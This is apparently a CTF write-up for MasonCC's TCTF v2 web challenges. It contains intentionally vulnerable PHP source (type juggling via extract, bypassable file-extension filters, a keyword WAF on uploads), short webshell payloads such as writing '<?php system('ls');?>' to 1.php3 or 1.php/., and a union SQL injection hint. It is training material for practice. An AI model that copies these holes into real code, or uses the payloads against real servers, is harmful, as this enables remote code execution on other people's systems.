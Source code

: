 # TCTF v2 
TCTF v2 is the CTF practice platform for MasonCC, and I have put up some web challenge on it. It is pity that I cannot keep all challenges running on server. Therefore, I would give my writeup of web challenge here. Welcome to take source code of challenges if you are interested in anyone.  
*  [Cover Peasy](#cover-peasy)  
*  [PHP un-Siri ME](#php-un-siri-me)  
*  [Unicorn && Lion](#unicorn-and-lion)  
*  [Shorter shell](#shorter-shell)  
*  [Peasy shell not PHP](#peasy-shell-not-php)  
*  [Apache2 giv u new Shell](#apache2-giv-u-new-shell)  
*  [Destroy chllenge with ur shell?](#destroy-chllenge-with-ur-shell?)  

## Cover Peasy
Level: :star:  
see source code in ./easypeasy.txt  
```php
<meta charset="utf-8">
<?php

error_reporting(0);
if (empty($_GET['str'])) {
    echo "see source code in ./easypeasy.txt";
    die();
}else{
    $flag = trim(file_get_contents('xxxxxxxxxxx.php'));
    $url = "www.1pwnch.org";
    $str = $_GET['str'];
    $pwnch = "enjoyIt";
    @parse_str($str);
    if ($url[0] != 'QNKCDZO' && md5($url[0]) == md5('QNKCDZO')) {
        extract($_GET);
        if($pwnch == $flag){
            echo "masoncc{xxxxxxxxxxx}";
        }else{
            echo "Good! But it's not enough!";
        }
    }else{
        exit('Try angain :-)');
    }
}
?>
```

## PHP un Siri ME
Level: :star::star:  
The difficulty of this challenge is your truely understand of unserialization.  

## Unicorn and Lion
Level: :star:  
This is a very classic challenge for Union-based mysql injection.  
I won't keep source code of file in this place.  
You need to find each answer of problem from the **faq.php**.  
What's worth paying attention to is that you need to separate each results of answer.  
Here is the trick ```group_concat(column name separator 'x')```  
that ```x``` can help you separate each results.  
![union](https://github.com/shinmao/CTF-writeups/blob/master/tctf-masoncc-writeup/screenshot/union%20and%20lion.png)

## Shorter shell
Level: :star::star::star:  
[Enjoy my writeup on my blog](https://shinmao.github.io/2018/02/20/A-tiny-shell/)  
In fact, there is a classic solution to such kind of challenge: **Reverse shell**  
Thanks to @chris-issing provides his [payload](https://github.com/shinmao/CTF-writeups/blob/master/tctf-masoncc-writeup/shorter-shell-others/chriss-issing.rb) 

## Peasy shell not PHP
Level: :star:  
```php
show_source(__FILE__);

$content = $_POST['content'];
$filename = $_POST['filename'];
$filename = "backup/".$filename;

if(preg_match('/.+\.php$/i', $filename)){
    echo 'Hey! I have told you, bad boy!';
}else{
    $f = fopen($filename,'w');
    fwrite($f, $content);
    fclose($f);
}
```
Payload: ```url/?content=<?php system('ls');?>&filename=1.php3```  
Associated knowledge: ```.php4```,```php5```,```php7```,```pht```,```phtml``` can also work.  

## Apache2 giv u new Shell
Level: :star:  
```php 
show_source(__FILE__); 

$sandbox = 'sb'.md5($_SERVER['REMOTE_ADDR']);
echo 'Here is your sandbox: '.$sandbox;

@mkdir($sandbox);
@chdir($sandbox);
@exec('touch i_no_you.txt');
 
$content = $_POST['content']; 
$filename = $_POST['filename']; 
 
if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
   die("1pwnch is angry!!");
}else{
    $f = fopen($filename, 'w');
    fwrite($f, $content);
    fclose($f);
}
```
Payload: ```url/?content=<?php system('ls');?>&filename=1.php/.```  

## Destroy chllenge with ur shell?
Level: :star::star::star:  
```php
// up.php
show_source(__FILE__);
function ppwaf($file){
    $hack = file_get_contents($file);
    if(stripos($hack,'eval') === false && stripos($hack,'assert') === false && stripos($hack,'echo') === false){
        echo "good! The content of your file is secure!"."<br />";
        return true;
    }else{
        echo "You have dangerous content!"."<br />";
        return false;
    }
}

function ppname($name){
    if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $name)){
           echo "Bad file extension";
        return false;
    }else{
            return true;
        echo "good! The filename of your file is secure!"."<br />";
    }
}

if($_FILES["file"]["error"]>0){
    echo "error code: ".$_FILES["file"]["error"]."<br />";
}else{
    echo "filename: ".$_FILES["file"]["name"]."<br />";
    echo "tmp name: ".$_FILES["file"]["tmp_name"]."<br />";
    if(ppwaf($_FILES["file"]["tmp_name"]) == true && ppname($_GET['name']) == true){
            move_uploaded_file($_FILES["file"]["tmp_name"],$_GET['name']);
    }else{
        echo "I am sorry because your dangerous file!"."<br />";
    }
}
```
Payload: [Enjoy my blog](https://shinmao.github.io/web/2018/04/13/The-Magic-from-0CTF-ezDoor/)  
![payload](https://github.com/shinmao/shinmao.github.io/blob/master/assets/uploads/2018-04-13/payload.png)
